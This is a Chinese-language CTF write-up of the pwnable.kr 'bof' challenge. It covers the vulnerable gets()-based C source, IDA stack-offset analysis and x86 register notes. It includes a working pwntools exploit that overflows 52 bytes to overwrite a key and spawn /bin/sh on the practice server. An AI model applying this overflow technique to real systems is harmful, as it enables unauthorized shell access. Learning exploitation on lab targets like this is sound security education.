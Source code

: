 ## Toddler's Bottle
### bof
打开bof.c可以看到源代码，需要让 key == 0xcafebabe 但key已经被给定。` gets(overflowme);	// smash me!` 提示用栈溢出覆盖原有值。<p>
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```
下载 bof 文件ida反汇编后得到：<p> ![ida](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_main.jpg)<p> 

> dword 双字 就是4个字节 <p> ptr 即指针  pointer <p> [ ] 里的数据是一个地址值，这个地址指向一个双字型数据 <p> mov eax, dword ptr [1234]  即把内存地址1234中的双字型（32位）数据赋给eax 

> 当堆栈地址是正偏移量时IDA把它识别为参数，负偏移量将被识别为变量，并具有 var_ 前缀 <p> argc = dword ptr 8  即输入的第一个参数argc 的偏移量是+8<p>

双击argc 后可跳转到 stack of main 页面，也可以看到 `agrc 的栈偏移量为+00000008` <p>![stackofmain](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_stackofmain.jpg)<p> 

查看伪代码：(如果F5不能显示伪代码，可能是程序和ida的操作系统不匹配，试试换成32位/64位ida) <p> ![pseudo](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_pseudo.jpg)<p> 
双击查看func ：<p> ![func](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_func.jpg)<p> 
get(s) 处存在栈溢出，s 的偏移量为 -2c，所以构造52个字符（0x08+0x2c = 0x34）即可以溢出到key ，从而使得key变为所需值0xcafebabe <p>
exp:
```
from pwn import *
r = remote("pwnable.kr",9000)
payload = "a"*52+p32(0xcafebabe)
r.send(payload)
r.interactive()
```

ida 基础：<p>
ESP：栈指针寄存器(extended stack pointer)，其内存放着一个指针，该指针永远指向系统栈最上面一个栈帧的栈顶。（64位机器变为RSP）<p>
EBP：基址指针寄存器(extended base pointer)，其内存放着一个指针，该指针永远指向系统栈最上面一个栈帧的栈底。（64位机器变为RBP）<p>
rax: 存放返回值 <p>
rsi,rdi,rcx,rdx: 传递函数参数 <p>

You'll allways find this code at the beginning of functions:
.text:00401150                 push    ebp
.text:00401151                 mov     ebp, esp
It's the prologue, it saves and sets up the registers to start executing the actual code

And this is the epilogue:

.text:00401153                 pop     ebp
.text:00401154                 retn
You'll find it after the actual code, it restores the registers and returns.

ebp always points to the top (because the stack grows downwards) of the memory reserved for the autovariables

mov     ebp, 1		: set register ebp equal to 1
mov     [ebp], 1	: set the memory pointed to by register ebp equal to 1
mov     [ebp-4], 1	: set the memory pointed to by register ebp - 4 equal to 1